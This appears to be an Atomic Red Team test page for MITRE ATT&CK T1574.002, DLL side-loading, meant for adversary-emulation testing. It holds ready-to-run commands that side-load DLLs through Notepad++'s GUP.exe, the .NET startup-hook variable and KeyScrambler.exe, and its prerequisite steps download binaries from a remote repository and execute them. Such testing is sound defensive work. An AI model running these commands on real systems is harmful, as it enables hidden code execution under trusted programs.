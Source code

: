 # T1574.002 - Hijack Execution Flow: DLL Side-Loading
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1574/002)
<blockquote>

Adversaries may execute their own malicious payloads by side-loading DLLs. Similar to [DLL Search Order Hijacking](https://attack.mitre.org/techniques/T1574/001), side-loading involves hijacking which DLL a program loads. But rather than just planting the DLL within the search order of a program then waiting for the victim application to be invoked, adversaries may directly side-load their payloads by planting then invoking a legitimate application that executes their payload(s).

Side-loading takes advantage of the DLL search order used by the loader by positioning both the victim application and malicious payload(s) alongside each other. Adversaries likely use side-loading as a means of masking actions they perform under a legitimate, trusted, and potentially elevated system or software process. Benign executables used to side-load payloads may not be flagged during delivery and/or execution. Adversary payloads may also be encrypted/packed or otherwise obfuscated until loaded into the memory of the trusted process.(Citation: FireEye DLL Side-Loading)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - DLL Side-Loading using the Notepad++ GUP.exe binary](#atomic-test-1---dll-side-loading-using-the-notepad-gupexe-binary)

- [Atomic Test #2 - DLL Side-Loading using the dotnet startup hook environment variable](#atomic-test-2---dll-side-loading-using-the-dotnet-startup-hook-environment-variable)

- [Atomic Test #3 - DLL Search Order Hijacking,DLL Sideloading Of KeyScramblerIE.DLL Via KeyScrambler.EXE](#atomic-test-3---dll-search-order-hijackingdll-sideloading-of-keyscrambleriedll-via-keyscramblerexe)


<br/>

## Atomic Test #1 - DLL Side-Loading using the Notepad++ GUP.exe binary
GUP is an open source signed binary used by Notepad++ for software updates, and is vulnerable to DLL Side-Loading, thus enabling the libcurl dll to be loaded.
Upon execution, calc.exe will be opened.

**Supported Platforms:** Windows


**auto_generated_guid:** 65526037-7079-44a9-bda1-2cb624838040





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| process_name | Name of the created process | string | calculator.exe|
| gup_executable | GUP is an open source signed binary used by Notepad++ for software updates | path | PathToAtomicsFolder&#92;T1574.002&#92;bin&#92;GUP.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
"#{gup_executable}"
```

#### Cleanup Commands:
```cmd
taskkill /F /IM #{process_name} >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Gup.exe binary must exist on disk at specified location (#{gup_executable})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{gup_executable}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{gup_executable}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/blob/master/atomics/T1574.002/bin/GUP.exe?raw=true" -OutFile "#{gup_executable}"
```




<br/>
<br/>

## Atomic Test #2 - DLL Side-Loading using the dotnet startup hook environment variable
Utilizing the dotnet_startup_hooks environment variable, this method allows for registering a global method in an assembly that will be executed whenever a .net core application is started. This unlocks a whole range of scenarios, from injecting a profiler to tweaking a static context in a given environment. [blog post](https://medium.com/criteo-engineering/c-have-some-fun-with-net-core-startup-hooks-498b9ad001e1)

**Supported Platforms:** Windows


**auto_generated_guid:** d322cdd7-7d60-46e3-9111-648848da7c02





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| process_name | Name of the created process | string | calculator.exe|
| preloader_dll | library for interfacing with the dotnet framework | path | PathToAtomicsFolder&#92;T1574.002&#92;bin&#92;preloader.dll|


#### Attack Commands: Run with `command_prompt`! 


```cmd
set DOTNET_STARTUP_HOOKS="#{preloader_dll}"
dotnet -h > nul
echo.
```

#### Cleanup Commands:
```cmd
taskkill /F /IM #{process_name} >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: .Net SDK must be installed
##### Check Prereq Commands:
```powershell
if (Test-Path "C:\Program Files\dotnet\dotnet.exe") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
winget install Microsoft.DotNet.SDK.6 --accept-source-agreements --accept-package-agreements -h > $null
echo.
```
##### Description: preloader must exist
##### Check Prereq Commands:
```powershell
if (Test-Path "#{preloader_dll}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/blob/master/atomics/T1574.002/bin/preloader?raw=true" -OutFile "#{preloader_dll}"
```




<br/>
<br/>

## Atomic Test #3 - DLL Search Order Hijacking,DLL Sideloading Of KeyScramblerIE.DLL Via KeyScrambler.EXE
Various threat actors and malware have been found side loading a masqueraded "KeyScramblerIE.dll" through "KeyScrambler.exe", which can load further executables embedded in modified KeyScramblerIE.dll file.

**Supported Platforms:** Windows


**auto_generated_guid:** c095ad8e-4469-4d33-be9d-6f6d1fb21585






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Write-Host 1.Downloading KeyScrambler from official website to temp directory
Invoke-WebRequest -Uri "https://download.qfxsoftware.com/download/latest/KeyScrambler_Setup.exe" -OutFile $env:Temp\KeyScrambler_Setup.exe
Write-Host 2.Installing KeyScrambler with KeyScrambler_Setup.exe from temp directory
Start-Process -FilePath $env:Temp\KeyScrambler_Setup.exe -ArgumentList /S -Wait
Write-Host 3.Copying KeyScrambler.exe to temp folder,to avoid permission issues, which calls KeyScramblerIE.dll in CWD i.e. temp
Copy-Item "C:\Program Files (x86)\KeyScrambler\KeyScrambler.exe" -Destination $env:TEMP\KeyScrambler.exe
Write-Host 4.Executing KeyScrambler.exe, you should see a popup of missing KeyScramblerIE.dll, you can close this popup
Start-Process -FilePath $env:Temp\KeyScrambler.exe
Write-Host 5.A modified KeyScramblerIE.dll can be copied to temp, which can be misused by Attacker
```

#### Cleanup Commands:
```powershell
Write-Host 1.Kindly close the popup window asking for KeyScramblerIE.dll ,so that it gets deleted.

Remove-Item -Path $env:Temp\KeyScrambler_Setup.exe
Start-Process -FilePath "C:\Program Files (x86)\KeyScrambler\Uninstall.exe" -ArgumentList /S -Wait
Remove-Item -Path $env:Temp\KeyScrambler.exe
Write-Host 2.KeyScrambler cleanup completed successfully.
```





<br/>
